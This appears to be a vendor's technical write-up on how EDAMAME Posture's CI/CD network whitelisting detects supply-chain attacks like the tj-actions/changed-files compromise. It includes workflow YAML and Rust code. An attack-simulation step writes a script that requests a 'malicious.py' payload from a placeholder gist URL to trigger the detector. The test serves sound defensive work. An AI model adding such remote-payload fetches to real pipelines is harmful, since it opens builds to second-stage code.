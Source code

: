 # Technical Analysis: EDAMAME Protection Against CVE-2025-30066

This document provides a detailed technical explanation of how EDAMAME Posture can detect and prevent supply chain attacks like the one described in CVE-2025-30066 (tj-actions/changed-files compromise).

## The Supply Chain Attack Vector

The attack on tj-actions/changed-files involved:

1. Compromising the maintainer's GitHub account credentials
2. Adding malicious code to a popular GitHub Action used by thousands of repositories
3. Making unauthorized network requests to gist.githubusercontent.com to fetch a second-stage payload
4. Accessing and exfiltrating sensitive repository secrets

This type of attack is particularly dangerous because:
- It uses trusted tools in the build pipeline
- It operates through normal-looking behavior (network requests)
- It can access all secrets available to the GitHub Action
- It's difficult to detect without network monitoring

## How EDAMAME Posture Detects These Attacks

EDAMAME Posture employs a "zero trust" approach to network traffic in CI/CD environments:

1. **Baseline Capture**: It first establishes a baseline of legitimate network traffic
2. **Whitelist Generation**: It converts observed traffic into a precise whitelist
3. **Continuous Monitoring**: It monitors all network traffic during builds
4. **Automatic Detection**: It flags any connections not in the whitelist
5. **Pipeline Integration**: It fails builds when violations are detected

## The Detection Process in Detail

Our [CVE-2025-30066.yml](.github/workflows/CVE-2025-30066.yml) workflow shows this protection in action:

### 1. Setup and Baseline Phase

```yaml
- name: Setup EDAMAME Posture
  run: |
    # Download and install EDAMAME Posture
    curl -LO https://github.com/edamametechnologies/edamame_posture_cli/releases/download/v0.9.21/edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    chmod +x edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    sudo mv edamame_posture-0.9.21-x86_64-unknown-linux-gnu /usr/local/bin/edamame_posture
    
    # Start EDAMAME in disconnected mode with LAN scanning and GitHub Linux whitelist
    sudo edamame_posture background-start-disconnected true github_linux
```

This starts EDAMAME Posture in disconnected mode (no external service needed) with network monitoring enabled. The `github_linux` parameter provides a base whitelist for standard GitHub Actions runners.

### 2. Legitimate Traffic Capture

```yaml
- name: Run legitimate build process
  run: |
    # Install dependencies
    pip install requests
    
    # Run the build script
    python build.py

- name: Create whitelist from legitimate traffic
  run: |
    # Create a custom whitelist from the observed network activity
    sudo edamame_posture create-custom-whitelists > whitelist.json
    
    # Apply the whitelist for future monitoring
    sudo edamame_posture set-custom-whitelists "$(cat whitelist.json)"
```

During this phase, EDAMAME captures all legitimate network connections that occur during the normal build process. It then creates a whitelist that includes:
- Connections to Python package repositories (PyPI)
- Standard GitHub runner communications
- Any other expected network traffic

### 3. Attack Simulation

```yaml
- name: Create malicious build script (simulating CVE-2025-30066)
  run: |
    # Create a Python script that simulates the malicious behavior from CVE-2025-30066
    cat > build_malicious.py << EOF
    import requests
    
    # Simulate the attack vector - connect to gist.githubusercontent.com
    # This is similar to what the compromised tj-actions/changed-files action did
    print("Attempting to fetch malicious payload from gist.githubusercontent.com...")
    response = requests.get("https://gist.githubusercontent.com/example/123456/raw/malicious.py")
    EOF

- name: Run build process with simulated malicious behavior
  run: |
    # Run the malicious build script
    python build_malicious.py
```

This simulates exactly what happened in the tj-actions/changed-files attack - a request to gist.githubusercontent.com that wasn't part of the legitimate traffic pattern.

### 4. Detection and Prevention

```yaml
- name: Check for whitelist violations (should detect the malicious connection)
  id: whitelist_check
  continue-on-error: true
  run: |
    # This should exit with non-zero code because the whitelist was violated
    sudo edamame_posture get-sessions
    echo "exit_code=$?" >> $GITHUB_OUTPUT

- name: Verify detection
  run: |
    if [ "${{ steps.whitelist_check.outputs.exit_code }}" != "0" ]; then
      echo "✅ SUCCESS: EDAMAME detected unauthorized connection to gist.githubusercontent.com"
    else
      echo "❌ FAILURE: EDAMAME did not detect the unauthorized connection"
      exit 1
    fi
```

When `get-sessions` is called, EDAMAME checks all network traffic against the whitelist and returns a non-zero exit code if any violations are found. This would cause a real CI/CD pipeline to fail, preventing the attack from succeeding.

The command now supports more granular control with parameters to check for different types of suspicious sessions:

```bash
# Basic usage - returns non-zero exit code if whitelist exceptions found
edamame_posture get-sessions

# Advanced usage with all control parameters
# Format: get-sessions [ZEEK_FORMAT] [LOCAL_TRAFFIC] [CHECK_WHITELIST] [CHECK_BLACKLIST] [CHECK_ANOMALOUS]
edamame_posture get-sessions false false true true true
```

With this flexibility, you can control which types of sessions should cause pipeline failures:
- `CHECK_WHITELIST` (default: true) - Exit with non-zero code for whitelist exceptions
- `CHECK_BLACKLIST` (default: true) - Exit with non-zero code for blacklisted connections
- `CHECK_ANOMALOUS` (default: false) - Exit with non-zero code for anomalous connections

## Technical Implementation

EDAMAME Posture's network monitoring relies on several components:

1. **Network Capture Engine**: Monitors all outbound connections from the CI/CD environment
2. **Whitelist Database**: Maintains patterns of allowed connections with attributes like:
   - Domain names and patterns
   - IP addresses and CIDR ranges
   - Ports and protocols
   - Request patterns
3. **Pattern Matching Logic**: Evaluates each connection against the whitelist rules

The key function in [background.rs](../src/background.rs) shows how this check is implemented:

```rust
pub fn background_get_sessions(local_traffic: bool, zeek_format: bool) -> i32 {
    // ... [code that retrieves and displays sessions]

    // Check whitelist conformance
    let whitelist_conformance = match rpc_get_whitelist_conformance(
        &EDAMAME_CA_PEM,
        &EDAMAME_CLIENT_PEM,
        &EDAMAME_CLIENT_KEY,
        &EDAMAME_TARGET,
    ) {
        Ok(conformance) => conformance,
        Err(e) => {
            eprintln!("Error getting whitelist conformance: {}", e);
            return ERROR_CODE_SERVER_ERROR;
        }
    };
    if !whitelist_conformance {
        eprintln!("Some connections failed the whitelist check");
        return ERROR_CODE_MISMATCH;
    } else {
        return 0;
    }
}
```

This returns an error code when network traffic violates the whitelist, which is then used to fail the CI/CD pipeline.

## Benefits Over Traditional Security Approaches

EDAMAME's approach offers several advantages over traditional security methods:

1. **No Signatures Needed**: Unlike antivirus or IDS systems, no prior knowledge of the attack is required
2. **Zero Configuration**: Simply capture legitimate traffic and use it to create whitelists
3. **Minimal False Positives**: By learning from actual legitimate traffic patterns
4. **Preventative, Not Just Detective**: Stops attacks before they can succeed
5. **CI/CD Integration**: Designed specifically for protecting build pipelines

By implementing this approach, organizations can prevent not just known attacks like CVE-2025-30066, but also future novel supply chain attacks that use similar network-based exfiltration methods. 